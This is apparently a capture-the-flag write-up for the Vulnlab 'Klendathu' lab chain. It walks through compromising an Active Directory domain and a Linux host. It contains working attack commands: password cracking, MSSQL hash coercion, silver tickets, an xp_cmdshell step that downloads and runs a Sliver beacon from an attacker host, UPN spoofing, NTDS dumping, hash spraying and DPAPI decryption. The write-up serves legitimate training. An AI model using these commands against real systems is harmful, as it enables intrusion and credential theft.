Klendathu is an Insane difficulty mixed/hybrid environment chain on Vulnlab with three machines. It was created by Snowscan.

## Recon
---
```sh
DC1.KLENDATHU.VL / 10.10.244.85
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

SRV1.KLENDATHU.VL / 10.10.244.86
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  mssql
3389/tcp open  ms-wbt-server

SRV2.KLENDATHU.VL / 10.10.244.87
PORT     STATE  SERVICE
22/tcp   open   ssh
2049/tcp open   nfs
```
As always we start by port scanning the machines with nmap, discovering two Windows machines and one Linux. We see that both Windows machines have SMB servers, and the Linux machine is running NFS. Also, `SRV1` is running mssql on its default port.

First we'll check if we can access either of the Windows machines' SMB shares with Guest access or a null session.
```sh
nxc smb DC1.KLENDATHU.VL -u 'Guest' -p '' --shares
nxc smb SRV1.KLENDATHU.VL -u 'Guest' -p '' --shares
```


```sh
nxc smb DC1.KLENDATHU.VL -u '' -p '' --shares
nxc smb SRV1.KLENDATHU.VL -u '' -p '' --shares
```


Unfortunately for us we can't gain access. Also, both of the machines have SMB signing enabled, which means relaying isn't an option.

### NFS to Zim
---
`SRV2` had NFS open on 2049, so we can enumerate NFS shares with the following:
```sh
showmount -e SRV2.KLENDATHU.VL
```


Which shows us that anyone can access `/mnt/nfs_shares`. The next step is to mount the share.
```sh
sudo mount -t nfs -o vers=3 SRV2.KLENDATHU.VL:/mnt/nfs_shares nfs_shares
```


Here we can find a file named `Switch344_running-config.cfg`, which has a few passwords and a hash.



We can extract the hash and crack it with john the ripper.
```sh
john --wordlist=/opt/SecLists/rockyou.txt cfg.hash
```


Password list:
```
123456
C1sc0
football22
```

From the file we can also get a username:



To validate the user we can use kerbrute to see if they actually exist on the domain.
```sh
kerbrute userenum --dc DC1.KLENDATHU.VL -d KLENDATHU.VL users.txt
```


Next we can try our found passwords on the user:
```sh
nxc smb DC1.KLENDATHU.VL -u 'ZIM' -p passwords.txt --shares
```


Which gives us control over the account.

Remember to unmount the share once you're done with it.
```
umount nfs_shares
```

## Zim to SRV1
---
We saw that Zim had read/write permissions over the HomeDirs share on `DC1`, but first lets also check for shares on `SRV1`.
```sh
nxc smb SRV1.KLENDATHU.VL -u 'ZIM' -p $ZIM_PASS --shares
```


That didn't give us anything of value, so lets check the homedirs share:
```sh
smbclient.py KLENDATHU.VL/ZIM:$ZIM_PASS@DC1.KLENDATHU.VL
```


Unfortunately while we can open the share we don't have the correct permissions to access any of the users directories. 

Since we can also access netlogon and sysvol we can check for saved logon passwords with netexec as well:
```sh
nxc smb DC1.KLENDATHU.VL -u 'ZIM' -p $ZIM_PASS -M gpp_password -M gpp_autologin
```


But there's nothing here.

We can run harvest data for bloodhound but unfortunately Zim doesn't have any interesting permissions.
```sh
nxc ldap DC1.KLENDATHU.VL -u 'ZIM' -p $ZIM_PASS --dns-server 10.10.244.85 --bloodhound --collection All
```


They are a member of the NetAdmins group, but the group doesn't seem to grant any special permissions.



By default domain users can login to Linux machines, not here though:



### MSSQL
---
Referring back to the initial nmap scan we can see that SRV1 is also hosting MSSQL on port 1433. We can connect with mssqlclient.
```sh
mssqlclient.py -windows-auth KLENDATHU.VL/ZIM:$ZIM_PASS@SRV1.KLENDATHU.VL
```


Can't impersonate, enable xp_cmdshell.
Nothing worthwhile in database.

We can spool up Responder and try to catch an NTLM hash with xp_dirtree, but unfortunately Zim doesn't have permissions to use dirtree either.
```sh
xp_dirtree \\10.8.3.84\test\test.txt
```


From a previous machine I found that you can query from sys with file_exists to "coerce" a hash as well:
```sh
SELECT * FROM sys.dm_os_file_exists('\\10.8.3.84\test\')
```


This hash cracks with john:



And gives us control over the RASCZAK, who Bloodhound shows as having a few interesting permissions.



### Silver Ticket
---
But first, since we got the hash by coercing the server that means the MSSQL server itself is running under RASCZAK, so we can create a silver ticket to access the service as an Administrator. We'll do this with impacket's ticketer.
```sh
ticketer.py -spn 'MSSQL/SRV1.KLENDATHU.VL' -domain-sid S-1-5-21-641890747-1618203462-755025521 -domain KLENDATHU.VL -user-id 500 -nthash E2F156A20FA3AC2B16768F8ADD53D72C administrator
```


Export the ticket, then connect to the server as the Administrator:
```sh
mssqlclient.py -windows-auth -k -no-pass KLENDATHU.VL/administrator@SRV1.KLENDATHU.VL
```


The Administrator can enable and use xp_cmdshell, so next we can make a sliver beacon:



And copy it over, along with SharpEfsPotato.
```sh
xp_cmdshell powershell -c "irm http://10.8.3.84:8000/EVENTUAL_WRITING.exe -o C:/ProgramData/pay.exe"
```



Execute SharpEfsPotato, passing the beacon as its target program:
```sh
xp_cmdshell C:\ProgramData\pot.exe -p C:\ProgramData\pay.exe
```


And get a callback.



This gets the first flag:



From here we can dump hashes and such, however there isn't anything else on this machine that's useful to us.



## SRV1 to SRV2(Linux)
---
We have access to a new user. I'll skip the part where I tried logging into `SRV2` and accessing the files in the homedirs share from earlier.

We also have GenericWrite and ForceChangePassword over two users, which means we can also do targetted kerberoasting. Set SPNs, must be different for each user
```sh
bloodyAD --host DC1.KLENDATHU.VL -d KLENDATHU.VL -u RASCZAK -p $RAS_PASS set object rico servicePrincipalName -v 'http/anything'

bloodyAD --host DC1.KLENDATHU.VL -d KLENDATHU.VL -u RASCZAK -p $RAS_PASS set object IBANEZ servicePrincipalName -v 'http/anything2'

nxc ldap DC1.KLENDATHU.VL -u RASCZAK -p $RAS_PASS --kerberoasting roasted.txt
```
Neither of their passwords crack though. I also tried `SRV2` ssh and homedirs with each of these users after changing their passwords, but didn't get anywhere in either case.

### Mixed Vendor Kerberos Authentication
---
https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/
> A by design issue exists with the **userPrincipalName** attribute belonging to user and computer accounts within Active Directory.  Accounts are susceptible to user spoofing when providing Kerberos tickets to *nix based services joined to an Active Directory realm.

> A spoofed Kerberos ticket can be presented to GSSAPI based authentication stacks resulting in privilege escalation on the target host or service.

> Whilst some degree of privilege is required over a single user or computer account within Active Directory to abuse this feature, any user can be spoofed against any service hosted over GSSAPI.

If you haven't setup authenticating on ssh with kerberos before you can find a guide here:

https://www.ibm.com/docs/en/aix/7.3.0?topic=support-using-openssh-kerberos

First we need to modify `/etc/ssh/sshd_config`
```
# Kerberos options
KerberosAuthentication yes
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes
#KerberosGetAFSToken no

# GSSAPI options
GSSAPIAuthentication yes
#GSSAPICleanupCredentials yes
#GSSAPIStrictAcceptorCheck yes
#GSSAPIKeyExchange no
```

And now `/etc/krb5.conf`
```
[libdefaults]
    default_realm = KLENDATHU.VL
    dns_lookup_realm = false
    dns_lookup_kdc = true

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false

[realms]
    KLENDATHU.VL = {
        kdc = dc1.klendathu.vl
        admin_server = dc1.klendathu.vl
    }

[domain_realm]
    .klendathu.vl = KLENDATHU.VL
    klendathu.vl = KLENDATHU.VL
```

With our system configured to auth with kerberos we can move on to exploit the configuration, first we set `Ibanez` password:
```sh
bloodyAD --host DC1.KLENDATHU.VL -d KLENDATHU.VL -u 'RASCZAK' -p $RAS_PASS set password 'IBANEZ' 'Password123!'
```


Then set UPN, we'll be targetting `Flores` since they're in the Linux Admins group:

```sh
bloodyAD --host DC1.KLENDATHU.VL -d KLENDATHU.VL -u 'RASCZAK' -p $RAS_PASS set object 'IBANEZ' userPrincipalName -v 'FLORES'
```


Next we can get a ticket, be sure to specify `NT_ENTERPRISE` as the principal:
```sh
getTGT.py 'KLENDATHU.VL'/'FLORES':'Password123!' -principal NT_ENTERPRISE
```


Finally we can connect to the machine with kerberos.
```
ssh -K flores@klendathu.vl@srv2.klendathu.vl
```


It's worth noting that it's necessary to use the FQDN for the above, an IP address will not auth correctly. It also has to be lowercase, unless I'm missing something.

Privesc is quite easy here:
```
sudo su
```


This gets us the second flag.

### Alternate by machine account
---
Another way that we can gain access to `SRV2` is by creating a machine account named root.

We'll do this with bloodyAD as well:
```sh
bloodyAD --host DC1.KLENDATHU.VL -d KLENDATHU.VL -u 'RASCZAK' -p $RAS_PASS add computer 'root' 'Password123!'
```


Then get a ticket:
```
getTGT.py 'KLENDATHU.VL'/'root':'Password123!'
```


And finally connect with ssh:
```
ssh -K root@srv2.klendathu.vl
```


Special thanks to Lwo in the VulnLab discord for pointing this out.

## SRV2 to DC1
---
There's a backup of the domain stored in the root directory.




We can't copy the backup files out with Flores, not without moving them first. Alternately, we can write an ssh key to root's `authorized_keys` file:



Copy the files locally with scp:
```sh
scp -i klen root@srv2.klendathu.vl:/root/inc5543_domaincontroller_backup/registry/SYSTEM .

scp -i klen root@srv2.klendathu.vl:/root/inc5543_domaincontroller_backup/'Active Directory'/ntds.dit .
```


With the files on our machine we can use secretsdump to extract hashes and keys from them.
```sh
secretsdump.py -o backup -ntds ntds.dit -system SYSTEM local
```


We should try spraying these hashes against to see if any haven't changed yet.
First, lets process the output into usernames and hashes. This can be done with cut.
```sh
cat backup.ntds | cut -d ":" -f 1 > usernames.dump

cat backup.ntds | cut -d ":" -f 4 > hashes.dump
```

Next we can spray with netexec:
```sh
nxc smb DC1.KLENDATHU.VL -u usernames.dump -H hashes.dump --continue-on-success --no-bruteforce
```


There is one account that hasn't had its password changed, but unfortunatly for us this account doesn't have any special permissions.



With root access to SRV2 we can pull the machine account hash, however that account also doesn't have any permissions.



Next we can check `/tmp/` for cache'd kerberos tickets.
The general workflow to extract these is to use base64:
```
base64 krb5cc_990001112
```


Then copy it and use echo with base64 locally to transfer it over:



We can use impacket's describeticket to identify who it's for, in this case the ticket is Zim's, which isn't useful for us.



However, there was another ticket on the machine, and this one belongs to `svc_backup`!



### SMB HomeDirs
---
Once the ticket is exported we can use it to identify as the user to the DC, and `svc_backup` has permission to access the folders in the HomeDirs share we found earlier:
```sh
smbclient.py -k -no-pass KLENDATHU.VL/svc_backup@DC1.KLENDATHU.VL
```


Jenkins is the only folder that has anything in it.



There's an rdg file that contains an encrypted password for `KLENDATHU\administrator`



And also there's an AppData backup, which is convenient because that's where dpapi secrets are stored.


```sh
unzip AppData_Roaming_Backup.zip
```


Most of the scripts for decrypting rdg files are for windows, or involve mimikatz as:

https://tools.thehacker.recipes/mimikatz/modules/dpapi/rdg

However, I want to decrypt it locally on the attack box.
We can use ntdissector to extract the PVK private key from the earlier domain backup, which we'll need to decrypt the rdg file.

https://www.synacktiv.com/publications/windows-secrets-extraction-a-summary

```sh
ntdissector -ntds ntds.dit -system SYSTEM -outputdir dissected -ts -f all
```


It saves a lot of files, but we want `secret.json`.



Pipe it to `jq` to format, and we want the "pvk" value:
```
cat secret.json|jq
```


The key is base64 encoded, we can convert it as follows, just like the kerberos tickets earlier:
```sh
echo "{key}" | base64 -d > backup.pvk
```

Finally, with the pvk key extracted and the user's masterkey from the backup we can decrypt the rdg file. We can use a script from dpapilab-ng, rdgdec.py, and if you're using UV to manage python environments you can launch the script to decrypt the file as follows: https://github.com/tijldeneut/dpapilab-ng/blob/main/rdgdec.py
```sh
uv run --with dpapick3,lxml rdgdec.py --masterkey="Jenkins/Roaming/Microsoft/Protect/S-1-5-21-641890747-1618203462-755025521-1110" -k backup.pvk --sid='S-1-5-21-641890747-1618203462-755025521-1110' Jenkins/jenkins.rdg
```


Password in hand, all we need to do now is login to the machine and get the final flag:
```
winrmexec.py KLENDATHU.VL/Administrator:$ADM_PASS@DC1.KLENDATHU.VL
```


This concludes the chain. Thanks to Xct for creating the platform, and Snowscan for creating the chain.

### Tools
---
- https://nmap.org/
- https://github.com/fortra/impacket
- https://github.com/Pennyw0rth/NetExec/
- https://github.com/CravateRouge/bloodyAD
- https://github.com/BishopFox/sliver
- https://github.com/bugch3ck/SharpEfsPotato
- https://github.com/synacktiv/ntdissector
- https://github.com/tijldeneut/dpapilab-ng
- https://github.com/ozelis/winrmexec
- https://github.com/SpiderLabs/Responder
- https://github.com/SpecterOps/BloodHound
- https://github.com/openwall/john
